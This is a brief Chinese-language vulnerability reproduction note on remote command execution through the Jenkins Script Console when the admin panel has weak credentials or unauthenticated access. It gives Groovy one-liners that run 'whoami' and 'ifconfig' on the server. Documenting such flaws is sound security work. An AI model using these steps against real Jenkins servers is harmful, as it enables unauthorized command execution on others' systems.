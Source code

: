 # Jenkins 功能未授权访问导致的远程命令执行漏洞

### 一、漏洞简介

Jenkins管理登陆之后，后台”系统管理”功能，有个”脚本命令行的”功能，它的作用是执行用于管理或故障探测或诊断的任意脚本命令，利用该功能，可以执行系统命令，该功能实际上Jenkins正常的功能，由于很多管理账号使用了弱口令，或者管理后台存在未授权访问，导致该功能会对Jenkins系统服务器产生比较严重的影响和危害。

### 二、漏洞影响

### 三、复现过程

找到“系统管理”——“脚本命令行”。

![](images/15890732458818.png)


![](images/15890732522707.png)


输入任意的Groovy脚本并在服务器上执行它。对于故障排除和诊断很有用。使用’println’命令查看输出（如果使用System.out，它将输出到服务器的标准输出，很难看到。）示例：


```bash
println(Jenkins.instance.pluginManager.plugins)
```

在脚本命令行中输入下面的语句，即可执行相应的命令：


```bash
println "whoami".execute().text
```

![](images/15890732734184.png)



```bash
println "ifconfig".execute().text
```

![](images/15890732859289.png)


